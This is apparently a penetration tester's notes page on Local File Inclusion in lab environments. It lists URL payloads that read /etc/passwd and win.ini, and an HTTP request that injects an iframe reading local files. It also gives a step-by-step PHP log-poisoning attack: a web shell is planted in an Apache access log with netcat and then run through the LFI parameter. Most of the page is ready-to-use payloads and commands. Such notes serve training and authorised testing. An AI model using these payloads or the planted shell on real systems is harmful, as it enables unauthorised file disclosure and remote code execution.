 ```yaml
---
description: >-
  Local File Inclusion
title: Local File Inclusion              # Add title here
date: 2023-01-28 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Local File Inclusion]                     # Change Templates to Writeup
tags: [exploitation, lfi, log poisoning, php]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Simple LFI
If an input is accepted on a URL parameter we can try to access any system file and check if whether or not it retrieves the file:
```bash
http://10.11.1.35/section.php?page=/etc/passwd
http://10.11.1.35/section.php?page=C:\Windows\win.ini
```
### iframe LFI <img src=///etc/passwd>
If we get an entry with a frame we can try to execute such a payload that it is possible to read files on the machine:
```bash
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 199
Connection: close
Cookie: connect.sid=s%3AyGd29rDOOta_oSwfj5BOgTjQThwvLm0v.1A9F%2BB%2FN8%2FuDhxgwLoT2Uj1rAHgU60MB5c2irg%2F3Vpk

{"basket":[{"_id":"638f116eeb060210cbd83a20","title":"<iframe src=file:///etc/passwd height=1000px width=800px></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
Examples:
[[Stocker#^ab97bc]]

## PHP Log Poisoning
### Contaminating Log Files

Let's use Netcat to connect to our Windows 10 lab machine on port 80 with an interesting payload:
```bash
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```
We can view these logs by opening `C:\\xampp\\apache\\logs\\access.log` or by using the XAMPP Control Panel.

Our payload should be found near the end of the log file:
```bash
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500]
"GET /css/bootstrap.min.css HTTP/1.1" 200 155758 "http://10.11.0.22/menu.php?file=\\Windows\\System32\\drivers\\etc\\hosts" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruck.php HTTP/1.1" 200 1189 "http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] ""<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 981 "-" "-"
```
Since our payload has been logged, we can attempt LFI execution.
Next, we'll use the LFI vulnerability to include the Apache access.log file that contains our PHP payload. We know the application is using an _include_ statement so the contents of the included file will be executed as PHP code.
We'll build a URL that includes the location of the log as well as our command to be executed (ipconfig) sent as the _cmd_ parameter's value.
```bash
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
